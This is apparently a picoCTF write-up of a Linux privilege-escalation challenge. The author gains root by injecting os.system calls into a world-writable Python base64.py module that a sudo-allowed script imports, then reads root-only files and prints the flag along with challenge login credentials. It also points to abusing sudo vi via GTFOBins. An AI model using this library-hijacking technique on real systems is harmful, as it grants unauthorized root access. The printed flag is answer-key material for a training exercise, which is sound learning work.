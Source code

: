 # hijacking

main objective is privelige escalation. now first when we `ls` we get a blank output because our file is hidden, so we use `ls -al` and we find a python file called server.py that has root priviliges to edit only

```
picoctf@challenge:~$ ls -al
-rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py
```
seeing inside that python file we see that imports a bunch of libraries and execution command.
```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```
though when we can't actually run this file because picoctf.org itself doesn't exist as a host

```
picoctf@challenge:~$ python3 ./.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "./.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

but point being is that we have  a file that runs on root till line 7 and imports a bunch of python libraries. The challenge file tells us to mess with a python file. 

**THIS IS EXPLOITABLE 😃**

so there are three libraries base64, os, socket. so we need to find where these libraries are located. after googling, it is known that they are located at `/usr/lib/python{version}`. 

```
picoctf@challenge:/usr/lib/python3.8$ ls -al base64.py socket.py os.py
-rwxrwxrwx 1 root root 20382 May 26 14:05 base64.py
-rw-r--r-- 1 root root 38995 May 26 14:05 os.py
-rw-r--r-- 1 root root 35243 May 26 14:05 socket.py
```

we see that we have edit previliges for base64.py. THEY ARE ASKING FOR IT. so we have to edit some code in here to run any command for us in root level. 

so we need to edit base64.py including os and running remote commands

after trying i realized i hadn't done an important step, which was to check which commands i had sudo access to

```
picoctf@challenge:/usr/lib/python3.8$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```
and our work was made way easier. as, if we run the command `sudo /usr/bin/python3 /home/picoctf/.server.py` it will run without password on root. and `vi` can be used on all files that is available for the user. 

Now we edit base64.py with executable commands and run them.

```python
#! /usr/bin/python3.8

"""Base16, Base32, Base64 (RFC 3548), Base85 and Ascii85 data encodings"""

# Modified 04-Oct-1995 by Jack Jansen to use binascii module
# Modified 30-Dec-2003 by Barry Warsaw to add full RFC 3548 support
# Modified 22-May-2007 by Guido van Rossum to use bytes everywhere

import re
import struct
import binascii

import os         
os.system("id")    # Commmand added


__all__ = [
...
```
```
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
uid=0(root) gid=0(root) groups=0(root)
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

**WE GOT ROOT ACCESS 🥳🥳**

now is just to search for where this flag is, i searched around the parts that weren't accessible and found root and challenge folders were unaccesible, so digging in them we find flag

```
import os
os.system("ls -al /")
os.system("ls -al /root")
os.system("ls -al /challenge")
os.system("cat /challenge/metadata.json")
print("")
os.system("cat /root/.flag.txt")
```
```
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 0
drwxr-xr-x    1 root   root     51 Oct 29 06:10 .
drwxr-xr-x    1 root   root     51 Oct 29 06:10 ..
-rwxr-xr-x    1 root   root      0 Oct 29 06:10 .dockerenv
lrwxrwxrwx    1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x    2 root   root      6 Apr 15  2020 boot
d---------    1 root   root      6 Aug  4 21:12 challenge
drwxr-xr-x    5 root   root    340 Oct 29 06:10 dev
drwxr-xr-x    1 root   root     66 Oct 29 06:10 etc
drwxr-xr-x    1 root   root     21 Aug  4 21:10 home
lrwxrwxrwx    1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx    1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx    1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx    1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x    2 root   root      6 Mar  8  2023 media
drwxr-xr-x    2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x    2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 2402 nobody nogroup   0 Oct 29 06:10 proc
drwx------    1 root   root     23 Aug  4 21:12 root
drwxr-xr-x    1 root   root     54 Oct 29 06:10 run
lrwxrwxrwx    1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x    2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x   13 nobody nogroup   0 Oct 29 06:10 sys
drwxrwxrwt    1 root   root      6 Aug  4 21:12 tmp
drwxr-xr-x    1 root   root     29 Mar  8  2023 usr
drwxr-xr-x    1 root   root     28 Mar  8  2023 var
total 12
drwx------ 1 root root   23 Aug  4 21:12 .
drwxr-xr-x 1 root root   51 Oct 29 06:10 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4 21:12 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
total 4
d--------- 1 root root   6 Aug  4 21:12 .
drwxr-xr-x 1 root root  51 Oct 29 06:10 ..
-rw-r--r-- 1 root root 103 Aug  4 21:12 metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}", "username": "picoctf", "password": "16IiP0AsuU"}
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

UPDATE:
I did google after this other writeups and found this site exists called [GTFObins](https://gtfobins.github.io/) which has commands used to bypass local security restrictions. as we had vi access to (ALL) we can just use this command to have super user access
![Alt text](image.png)
